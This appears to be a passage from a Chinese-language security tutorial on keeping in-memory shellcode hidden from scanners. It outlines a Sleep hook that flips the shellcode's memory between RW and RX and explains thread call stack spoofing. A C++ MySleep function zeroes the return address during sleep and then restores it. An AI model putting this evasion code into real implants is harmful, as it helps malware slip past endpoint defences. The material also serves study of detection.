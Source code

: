   

1.  Hook Sleep 函数
    
2.  定位内存中的 shellcode
    
3.  睡眠期间翻转为 RW
    
4.  睡眠结束翻转为 RX
    
5.  无限循环，以此规避内存扫描
    

-   线程堆栈欺骗：欺骗线程堆栈返回地址
    
    默认情况下，线程的返回地址指向我们驻留在内存中的 shellcode，通过检查可疑进程中线程的返回地址，可以轻松识别到内存中的 shellcode
    
      
    
    最简单的方法，直接用 0 覆盖返回地址，从而截断堆栈
    
    关键代码
    

```bash
void WINAPI MySleep(DWORD _dwMilliseconds)
{
    const register DWORD dwMilliseconds = _dwMilliseconds;

    // Perform this (current) thread call stack spoofing.
    PULONG_PTR overwrite = (PULONG_PTR)_AddressOfReturnAddress();
    const register ULONG_PTR origReturnAddress = *overwrite;

    log("[>] Original return address: 0x", std::hex, std::setw(8), std::setfill('0'), origReturnAddress, ". Finishing call stack...");
    *overwrite = 0;

    log("\n===> MySleep(", std::dec, dwMilliseconds, ")\n");

    // Perform sleep emulating originally hooked functionality.
    ::SleepEx(dwMilliseconds, false);

    // Restore original thread's call stack.
    log("[<] Restoring original return address...");
    *overwrite = origReturnAddress;
}
```

效果对比：

默认线程调用堆栈：

![图片](assets/1699494032-fc03d9dc7c421cdb778bc4ac29f23cb0.png)
